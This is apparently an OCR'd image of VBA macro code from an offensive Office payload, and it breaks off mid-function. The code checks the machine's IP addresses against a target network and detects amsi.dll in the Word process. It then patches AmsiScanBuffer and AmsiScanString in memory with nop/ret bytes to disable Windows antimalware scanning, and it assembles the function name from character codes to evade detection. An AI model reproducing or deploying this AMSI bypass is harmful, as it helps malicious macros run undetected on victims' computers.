 ```js
    #End If
End Function

Public Function getMyIP(ipcheck As String) As Boolean
'uses WMI to get all IP's associated with machine.  Each one is then checked against the wildcarded IP/network.  If a match is found, returns True
    Dim objWMI As Object
    Dim objQuery As Object
    Dim objQueryItem As Object
    Dim vIpAddress
    Dim counter As Integer
    Dim ips() As String
    Set objWMI = GetObject("winmgmts:\\.\root\cimv2")
    Set objQuery = objWMI.ExecQuery("Select * from Win32_NetworkAdapterConfiguration Where IPEnabled = True")
    For Each objQueryItem In objQuery
        For Each vIpAddress In objQueryItem.ipaddress
            If CStr(vIpAddress) Like ipcheck Then
                getMyIP = True
            End If
        Next
    Next
End Function

Function amcheck(StrFile As String) As Boolean
'Checks for amsi.dll in word process. If found, returns True
Dim szProcessName As String
Dim mdi As MODULEINFO
Dim hMod(0 To 1023) As LongPtr
Dim res As LongPtr
amcheck = False
res = EnumProcessModulesEx(-1, hMod(0), 1024, cbNeeded, &H3)
For i = 0 To UBound(hMod)
    szProcessName = String$(50, 0)
    GetModuleBaseName -1, hMod(i), szProcessName, Len(szProcessName)
    If Left(szProcessName, 8) = StrFile Then
        amcheck = True
   End If
Next i

End Function

Function patch(StrFile As String, Is64 As Boolean)
'patches amsi.dll in memory in order to disable it.  Loads memory address of amsi.dll and then locates the AmsiUacInitialize function within it.  The AmsiScanBuffer and AmsiScanString functions are located via relative offset from AmsiUacInitialize and then overwritten with a nop and then a ret to disable them. 
' Depending on architecture these offsets vary, so a case is included for x86 and x64
Dim lib As LongPtr
Dim Func_addr As LongPtr
Dim temp As LongPtr
Dim old As LongPtr
Dim off As Integer

lib = getmod(StrFile)

If Is64 Then
    off = 96
Else
    off = 80
End If
Func_addr = GetPrAddr(lib, "Am" & Chr(115) & Chr(105) & "U" & Chr(97) & "c" & "Init" & Chr(105) & Chr(97) & "lize") - off
```